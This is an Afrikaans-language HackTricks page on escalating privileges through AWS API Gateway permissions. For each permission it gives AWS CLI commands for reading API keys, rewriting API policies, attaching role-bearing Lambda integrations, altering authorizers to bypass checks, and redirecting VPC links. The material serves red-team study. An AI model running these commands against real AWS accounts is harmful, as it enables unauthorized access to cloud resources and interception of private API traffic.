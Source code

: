 # AWS - Apigateway Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Apigateway

Vir meer inligting, kyk na:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Met hierdie toestemming kan jy API-sleutels genereer vir die gekonfigureerde API's (per streek).
```bash
aws --region <region> apigateway create-api-key
```
**Potensiële Impak:** Jy kan nie voorregverhoging met hierdie tegniek doen nie, maar jy kan moontlik toegang kry tot sensitiewe inligting.

### `apigateway:GET`

Met hierdie toestemming kan jy gegenereerde API-sleutels van die gekonfigureerde API's kry (per streek).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potensiële Impak:** Jy kan nie voorregverhoging met hierdie tegniek doen nie, maar jy kan moontlik toegang kry tot sensitiewe inligting.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Met hierdie toestemmings is dit moontlik om die hulpbronbeleid van 'n API te wysig om jouself toegang te gee om dit te roep en potensiële toegang tot die API Gateway te misbruik (soos die aanroeping van 'n kwesbare lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potensiële Impak:** Jy sal gewoonlik nie direk kan privilige-escalasie doen met hierdie tegniek nie, maar jy kan moontlik toegang kry tot sensitiewe inligting.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:PutIntegration`, `apigateway:CreateDeployment`, en `iam:PassRole` kan **'n nuwe integrasie byvoeg tot 'n bestaande API Gateway REST API met 'n Lambda-funksie wat 'n IAM-rol aangeheg het**. Die aanvaller kan dan **die Lambda-funksie aktiveer om willekeurige kode uit te voer en moontlik toegang te verkry tot die hulpbronne wat verband hou met die IAM-rol**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Toegang tot hulpbronne wat verband hou met die IAM rol van die Lambda-funksie.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:UpdateAuthorizer` en `apigateway:CreateDeployment` kan 'n **bestaande API Gateway outentiseerder wysig** om sekuriteitskontroles te omseil of arbitrêre kode uit te voer wanneer API-versoeke gemaak word.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Omseiling van sekuriteitskontroles, ongemagtigde toegang tot API-bronne.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemming `apigateway:UpdateVpcLink` kan **'n bestaande VPC-skakel wysig om na 'n ander Netwerk Lasbalansierer te verwys, wat moontlik private API-verkeer na ongemagtigde of skadelike bronne kan omskakel**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potensiële Impak**: Ongeoorloofde toegang tot private API-bronne, onderschepping of ontwrigting van API-verkeer.

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
